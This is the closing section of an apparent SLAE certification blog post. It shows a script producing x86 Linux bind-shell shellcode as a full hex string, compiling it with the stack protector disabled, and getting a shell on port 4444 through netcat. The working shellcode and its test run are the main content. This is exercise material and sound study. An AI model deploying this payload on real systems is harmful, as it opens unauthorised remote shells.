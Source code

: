 Now to test, this time with a different port.

```
absolomb@ubuntu:~/SLAE/assignments/1$ python3 bindport.py 4444
Shellcode:
\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x31\xd2\x52\x66\x68\x11\\\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x50\x57\x89\xe1\x43\x43\xb0\x66\xcd\x80\x31\xd2\x52\x52\x57\x43\x89\xe1\xb0\x66\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80
absolomb@ubuntu:~/SLAE/assignments/1$ vim shellcode.c
absolomb@ubuntu:~/SLAE/assignments/1$ gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/1$ ./shellcode
Shellcode Length:  97
```

```
absolomb@ubuntu:~$ netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
absolomb@ubuntu:~$ nc localhost 4444
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Success! There is obviously some improvements that could be made to the assembly to help further shrink down the shellcode even more but this is a good start. Perhaps for the reverse shell option next I'll use some new and more efficient instructions. Thanks for reading if you made it this far!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>